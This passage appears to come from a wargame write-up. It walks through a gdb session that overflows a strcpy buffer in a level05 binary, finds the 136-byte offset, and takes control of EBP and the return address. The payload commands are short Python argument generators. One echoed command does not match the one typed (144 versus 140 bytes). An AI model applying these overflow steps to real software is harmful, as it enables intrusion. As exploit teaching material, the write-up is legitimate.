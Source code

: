     (gdb) run $(python -c "print 'a'*140")
    Starting program: /levels/level05 $(pyt
    Breakpoint 1, 0x080483ee in main ()

I start the program with the same argument as before.

    (gdb) x/4 $esp
    0xbffffb20:     0xbffffb40      0xbffffd9a      0x00000001      0xb7fff930

Here I display the stack buffer, to reveal something critical. In order to use the `strcpy` function the [arguments](http://en.cppreference.com/w/c/string/byte/strcpy) need to be passed on the stack. So `0xbffffb40` is the address of `buf` and `0xbffffd9a` is the value of `argv[1]`:

    (gdb) x/s 0xbffffb40
    0xbffffb40:     ","
    (gdb) x/s 0xbffffd9a
    0xbffffd9a:     'a' <repeats 140 times>

`buf` contains a random value and `argv[1]` our argument, so far so good.

Now let's have a look at the stack:

    (gdb) x/10wx $ebp
    0xbffffbc8:     0x00000000      0xb7e3aa63      0x00000002      0xbffffc64
    0xbffffbd8:     0xbffffc70      0xb7fed79a      0x00000002      0xbffffc64
    0xbffffbe8:     0xbffffc04      0x08049618

This is the base of the stack, and the difference with the `buf` address is:

    (gdb) print 0xbffffbc8 - 0xbffffb40
    $1 = 136

So even if the `buf` array is only 128 chars long, 136 bytes were reserved for it.

Let's run the `strcpy`:

    (gdb) nexti
    0x080483f3 in main ()
    (gdb) x/10wx $ebp
    0xbffffbc8:     0x61616161      0xb7e3aa00      0x00000002      0xbffffc64
    0xbffffbd8:     0xbffffc70      0xb7fed79a      0x00000002      0xbffffc64
    0xbffffbe8:     0xbffffc04      0x08049618

You can see that the value of `$ebp` is now "aaaa", it's the very end of the string. We can make this even clearer:

    (gdb) run $(python -c "print 'a'*136 + 'bcde'")
    Starting program: /levels/level05 $(python -c "print 'a'*136 + 'bcde'")
    Breakpoint 1, 0x080483ee in main ()
    (gdb) nexti
    0x080483f3 in main ()
    (gdb) x/s $ebp
    0xbffffbc8:     "bcde"

Now the `$ebp` contains clearly the last 4 bytes of the string, we'll use this later.

Let's try something else:

    (gdb) run $(python -c "print 'a'*144 + 'bcde'")
    Starting program: /levels/level05 $(python -c "print 'a'*140 + 'bcde'")
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa...
    Program received signal SIGSEGV, Segmentation fault.
    0x65646362 in ?? ()
